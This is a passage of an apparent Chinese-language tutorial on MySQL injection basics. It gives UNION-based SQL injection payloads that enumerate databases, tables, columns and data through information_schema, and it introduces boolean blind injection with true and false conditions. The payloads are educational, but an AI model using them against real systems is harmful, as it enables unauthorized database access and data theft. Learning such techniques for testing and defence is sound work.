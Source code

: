 简单来说，查库名 -> 查表名 -> 查列名 -> 查值

```sql
-- 判断字段数目
order by 
-- 联合查询搜集信息(表中字段数为3，注意字符类型，如 int，String之类的)
union select 1,2,3
-- 查询当前数据库名称
union select 1,2,database();
-- 查询所有数据库
union select 1,2,group_concat(schema_name) from information_schema.schemata;
--查询当前数据库中的所有表名
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();
-- 查询某表的列名
union select 1,2,group_concat(column_name) from information_shcema.columns where table_name = 'student' -- studnet 表示 具体的表名
-- 查询数据
union select 1,2,group_concat(id,name,age) from student;
```
## 盲注
核心：利用逻辑符号/条件函数，让返回的内容/响应时间与正常页面不符
### 布尔盲注
通过页面对永真条件，`or 1=1` 与 永假条件，`and 1=2` 返回的内容是否存在差异，进行判断是否可以进行布尔盲注。通常返回存在/不存在两个结果，就可以判断是否存在布尔盲注
```sql
-- 语句如下，如果condition为真，那么整条语句 where 语句则恒真
select * from users where username=$username and (condition)
```
and 1=1 恒真

![image.png](./MySQL注入基础.assets/2023_05_19_10_41_12_Fyz9Ho0i.png)

and 1=2 恒假

![image.png](./MySQL注入基础.assets/2023_05_19_10_41_13_mCt1P8dn.png)
